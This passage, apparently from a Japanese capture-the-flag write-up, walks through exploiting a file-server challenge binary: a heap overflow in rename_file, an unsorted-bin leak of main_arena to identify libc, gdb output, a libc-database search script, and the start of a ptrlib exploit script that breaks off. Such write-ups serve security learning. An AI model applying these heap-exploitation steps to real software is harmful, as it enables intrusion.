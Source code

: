 `truncate_file`はファイル名が一致するものを探し、一致してかつそのファイルサイズよりも小さい値が渡されたら、`fdp->length`を新しい`length`に変更します。
データ自体は削除されていないようです。

ということで全体の処理を読みました。
とりあえず`rename_file`のヒープオーバーフローでdataのポインタを書き換えて、`download_file`でlibcのバージョンとロードアドレスを特定しましょう。
~~いやまて、PIEが有効じゃんどうすんのこれ。~~
こんなときのためのunsorted binでした。
filedataのlengthを書き換えることで以降のヒープ上のデータを全てリークできます。
したがって、ファイル1を確保 --> 巨大なファイル2を確保 --> ファイル2を削除 --> ファイル1のlengthを上書き --> ファイル1をダウンロード、という流れでmain_arenaへリンクされたアドレスが見えるはずなので、libcが特定できそうです。

delete以外にも色んなところにfreeがあってヒープの中身が意味不明になっているのですが、とりあえずlibcのアドレスっぽいものが出力されました。
gdbで調べると`main_arena+88`だそうです。
```
gdb-peda$ x/4wx 0x7fdd1ed027b8
0x7fdd1ed027b8 <main_arena+88>: 0xaf77c390      0x000055a0      0xaf77b370      0x000055a0
```

ということで、`main_arena`からlibcのバージョンを特定したかったのですが、libc databaseでは見つかりませんでした。
たぶん`main_arena`というシンボルが存在しないからだと思います。
幸いローカルにlibcファイル一式を揃えてあったので、次のスクリプトでlibcを探しました。

```python
from subprocess import check_output
from glob import glob
import re

for filepath in glob("/home/ptr/warehouse/libc-database/db/*.so"):
    result = check_output(["main_arena", filepath])
    r = re.findall(b"0x([0-9a-f]+)", result)
    if not r:
        continue
    if (0x7f4c5cf21b20 - int(r[0], 16)) & 0xfff == 0:
        print(filepath)
```

いくつか出てきましたが、有力候補は次の3つです。
```
/home/ptr/warehouse/libc-database/db/libc6_2.23-0ubuntu10_amd64.s
/home/ptr/warehouse/libc-database/db/libc6_2.23-0ubuntu3_amd64.so
/home/ptr/warehouse/libc-database/db/libc6_2.23-0ubuntu11_amd64.so
```

とりあえずこれでlibcのロードアドレスは特定できたのかな...？

```python
from ptrlib import *

def upload_file(filename, size, data):
    assert isinstance(filename, str)
    sock.sendline("PUT {} {}".format(filename, size))
    sock.send(data)

def download_file(filename):
    assert isinstance(filename, str)
    sock.sendline("GET {}".format(filename))
    sock.recvuntil("get ")
    size = int(sock.recvuntil(" "))
    sock.recvline()
    return sock.recv(size)

def delete_file(filename):
    assert isinstance(filename, str)
    sock.sendline("DELE {}".format(filename))

def rename_file(filename1, filename2):
    assert isinstance(filename1, str)
    assert isinstance(filename2, str)
```